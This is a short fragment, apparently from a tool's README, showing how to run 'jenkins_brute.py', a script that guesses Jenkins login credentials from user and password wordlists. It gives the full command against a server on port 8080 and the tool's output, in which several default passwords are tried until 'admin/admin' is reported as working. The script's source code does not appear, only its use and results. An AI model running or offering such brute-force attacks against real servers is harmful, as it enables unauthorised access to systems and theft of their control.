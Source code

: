 `$ python3 jenkins_brute.py http://10.10.2.220:8080 users.txt pass.txt`

```
-------------------------------------------
|            Jenkins Brute                |
|     Coded By : Nehal a.k.a Pwnersec     |
-------------------------------------------
Trying admin/root
Trying admin/administrator
Trying admin/jenkins
Trying admin/jenkinsadmin
Trying admin/jenkinsroot
Trying admin/admin
Probable creds : admin/admin. G00dluck.
```
